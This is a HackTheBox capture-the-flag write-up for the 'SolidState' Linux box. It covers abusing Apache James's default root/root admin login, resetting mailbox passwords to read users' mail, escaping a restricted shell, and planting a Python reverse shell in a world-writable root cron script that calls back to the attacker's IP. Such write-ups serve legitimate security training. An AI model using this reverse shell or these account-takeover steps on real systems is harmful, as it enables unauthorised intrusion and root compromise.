# SolidState

## Overview

- **OS:** Linux (Debian)
- **IP:** 10.129.19.39
- **Difficulty:** Medium
- **Platform:** HackTheBox

### Summary

SolidState runs an outdated Apache James mail server that exposes a remote administration tool on port 4555 with default `root`/`root` credentials. From there we reset every user's mailbox password, then read their mail over POP3 to find SSH credentials planted in one of the inboxes. That gets us a shell as mindy, who is trapped in a restricted shell. Breaking out of the restricted shell gives a normal user, and a writable root-owned cron script finishes the job for root.

## Enumeration

### Nmap Scan

Started with a full service and version scan. The command writes the results to XML and converts them to HTML at the same time so they are easy to read later.

```bash
nmap -sCV -T5 10.129.19.39 -oX solidstat.xml; xsltproc solidstat.xml -o solidstat.html
```



Five ports are open, and the mail-related ones stand out:

- **22** SSH (OpenSSH 7.4p1)
- **25** SMTP
- **80** Apache httpd 2.4.25
- **110** POP3
- **119** NNTP

Three mail protocols on one box (SMTP, POP3, NNTP) is a strong hint that a mail server is the main attack surface here, not the website.

### Web Server

Port 80 serves a corporate site for "Solid State Security". The landing page is just marketing content.


Scrolling down shows a services section, still nothing interactive.



The contact page has a form and leaks a `webadmin@solid-state-security.com` address, worth noting but not an entry point on its own.


### Directory Brute Force

Ran gobuster against the web root to check for anything hidden.

```bash
gobuster dir --url http://10.129.19.39/ --wordlist /usr/share/wordlists/dirb/common.txt --threads 5
```



Only the standard directories (`assets`, `images`, `index.html`) turned up. The web server is a dead end, which pushes attention back to the mail services.

## Foothold

### Identifying Apache James

The SMTP and POP3 banners both identify the mail software as JAMES (Apache James) version 2.3.2. A quick search for that version turns up a known authenticated remote command execution exploit on Exploit-DB.



The useful detail in the exploit is that the James Remote Administration Tool ships with default credentials.



> Apache James 2.3.2 exposes an admin console on TCP port 4555. Old installs commonly leave the default `root`/`root` login in place, which gives full control over mailboxes without any prior access.

### James Remote Administration Tool

Connected to the admin port with telnet.

```bash
telnet 10.129.19.39 4555
```



Logging in with `root`/`root` works, and `HELP` lists what the console can do. The interesting commands are `listusers` and `setpassword`.



Listed the existing accounts.



Five users: james, thomas, john, mindy, and mailadmin.

### Resetting Mailbox Passwords

The admin tool cannot read mail directly, but it can reset any account's password. So the plan is to set every user's password to something we know, then log into each mailbox over POP3 and read it.

Reset the first account as a test.


Then reset the rest, setting each password equal to the username to keep it simple.



### Reading Mail over POP3

Confirmed port 110 is open and speaking POP3.

```bash
nmap -p 110 10.129.19.44
```



> POP3 is a plain-text protocol for pulling down mail. You log in with `USER` and `PASS`, then `LIST` the messages and `RETR <n>` to read one. Because it is all plain text, you can drive the whole thing by hand over telnet.

Logged into john's mailbox first. One message from mailadmin talks about restricting mindy's access and sending her a temporary password, which tells us mindy is the account worth chasing.



Logged into mindy's mailbox. The first message is a generic welcome.



The second message is the prize. It hands over mindy's SSH username and password.



### SSH as mindy

Used the credentials from the mailbox to SSH in.



The login succeeds and we land on the box as mindy.



## User Flag

```
5ef45d4918b09a78****************
```

(censored)



## Privilege Escalation

### Escaping the Restricted Shell

mindy's normal SSH session drops into a restricted shell (rbash), which blocks `cd`, limits the commands you can run, and generally keeps you boxed in. The clean way around it is to ask SSH to run a different shell directly at login instead of the restricted default.

```bash
ssh mindy@10.129.19.44 -t bash
```

> The `-t` flag forces a pseudo-terminal and the trailing `bash` tells SSH to run that command instead of the account's configured shell. Because rbash never gets a chance to start, we land in a normal bash session with `cd` and a full PATH.



`whoami` confirms we are still mindy, but now in an unrestricted shell.

### Hunting for a Cron Job with pspy

With a real shell, the next step is to look for scheduled tasks. We cannot read root's crontab as mindy, so instead of guessing we use pspy, a tool that watches running processes without needing root. It catches short-lived commands, including ones that cron fires on a schedule.

Pulled pspy onto the box. First served it from Kali with a quick Python web server.

```bash
python3 -m http.server 8000
```



Then downloaded it on the target.





`/tmp` can be mounted noexec on some boxes, so moved to `/dev/shm`, made it executable, and ran it.



> pspy works by constantly scanning `/proc` for new process entries. Every time a program starts, even for a fraction of a second, pspy prints it. This is how you spot a root cron job without being able to read `/etc/crontab`.

After a minute, pspy shows root running a Python script on a schedule.



The line that matters is root executing `/opt/tmp.py`.



### Checking Permissions on the Script

Navigated to `/opt` and listed the permissions.



`tmp.py` is owned by root but its permissions are `-rwxrwxrwx`, meaning anyone can write to it. Since root runs it on a timer, whatever we put in that file runs as root.

Looked at what the script currently does. It just clears out `/tmp`.



### Overwriting the Script

Replaced the contents of `tmp.py` with a Python reverse shell pointing back at our box:

```python
#!/usr/bin/env python
import os
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.15.210", 443))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/bash", "-i"])
```

Started a netcat listener for the callback.

```bash
nc -lvnp 443
```



### Catching Root

Within a minute the cron job ran `tmp.py` as root and the listener caught the shell.



`whoami` confirms root, and `root.txt` is sitting in `/root`.



## Root Flag

```
3ecd966ab38745ce****************
```

(censored)

pwned

## Lessons Learned

- Old mail software is a goldmine. Apache James 2.3.2 with a default `root`/`root` admin login gave full control of every mailbox before we had any real access.
- You do not always need to read mail "properly". Resetting passwords through the admin tool and pulling messages over plain-text POP3 by hand was enough to find SSH creds someone left sitting in an inbox.
- A restricted shell is rarely the end of the road. Asking SSH to launch `bash` directly with `-t` skips rbash entirely.
- pspy is the move when you suspect a cron job but cannot read the crontab. Watching `/proc` revealed the root task that the privesc depended on.
- World-writable files that run as root are game over. A root cron job pointing at a `777` script means you decide what root executes.
